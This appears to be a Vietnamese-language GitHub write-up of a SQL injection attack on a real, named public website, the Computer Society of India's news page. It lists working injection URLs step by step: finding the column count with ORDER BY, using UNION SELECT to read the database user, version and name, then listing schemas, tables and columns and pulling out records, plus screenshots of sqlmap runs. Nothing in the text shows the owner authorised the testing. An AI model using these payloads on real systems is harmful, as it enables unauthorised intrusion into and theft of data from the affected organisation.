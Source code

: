 # TỔNG QUAN # 

Kiểm tra trên web "Computer Society of India" `https://csi-india.org/news/index.php?id=18`

![image](https://github.com/user-attachments/assets/089b7ff5-3f94-4575-a9ee-1e0876ec59a3)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

`https://csi-india.org/news/index.php?id=18+ORDER+BY+1`

![image](https://github.com/user-attachments/assets/1db5d0ae-72f2-432c-abeb-fb572dd2c1ea)

=> Số cột lớn hơn 1

`https://csi-india.org/news/index.php?id=18+ORDER+BY+10`

![image](https://github.com/user-attachments/assets/84374454-20c5-4db2-a2c6-23d905c49bcf)

=> Số cột bé hơn 10

`https://csi-india.org/news/index.php?id=18+ORDER+BY+8`

![image](https://github.com/user-attachments/assets/cccfee89-cf9f-4c3a-be8a-fc30af8329e1)

=> Số cột là 8    
## Kiểm tra database, version, user 

**1. User**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,user(),5,6,7,8`

![image](https://github.com/user-attachments/assets/75227e5b-953a-48dd-a56a-c49d4b1b8725)

**2. Version**

https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,version(),5,6,7,8

![image](https://github.com/user-attachments/assets/e623bf1a-727f-4a23-b0a4-2b80b280a6cb)

**3. Database**

https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,database(),5,6,7,8

![image](https://github.com/user-attachments/assets/12a78158-d713-44f4-add8-74f6ae91d9fa)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8+from+information_schema.schemata`

![image](https://github.com/user-attachments/assets/5780aae7-dc2c-482a-aea2-d3aa8ae689f1)

**2. Liệt kê các bảng**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,table_name,0x7c),5,6,7,8+from+information_schema.tables+where+table_schema='csiindia_portal'`

![image](https://github.com/user-attachments/assets/182e61f9-cd2a-41c6-850b-e4eb2154eecf)

**3. Liệt kê các cột trong bảng**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,column_name,0x7c),5,6,7,8+from+information_schema.columns+where+table_name='category'`

![image](https://github.com/user-attachments/assets/5af91210-33b2-48bd-82c6-bb20f117567b)

**4. Trích xuất dữ liệu bất kì**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,cat_name,5,6,7,8+from+category`

![image](https://github.com/user-attachments/assets/bd7fcad5-1cec-4fb6-b54d-4b3411818224)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

![image](https://github.com/user-attachments/assets/9eb20627-fe43-4f2d-a951-70ad997a8b40)

**2. Lấy các bảng trong database**

![image](https://github.com/user-attachments/assets/5175361d-dbfc-4e58-816b-a83455ffbf2f)

**3. Lấy các cột trong bảng**

![image](https://github.com/user-attachments/assets/e6f0927a-96ea-4981-8369-1ce2c3304d79)

![image](https://github.com/user-attachments/assets/0f51fac4-636d-4fd7-9484-61a5228846b6)

![image](https://github.com/user-attachments/assets/8e4d4498-7349-4421-8d82-4454e266ccb6)



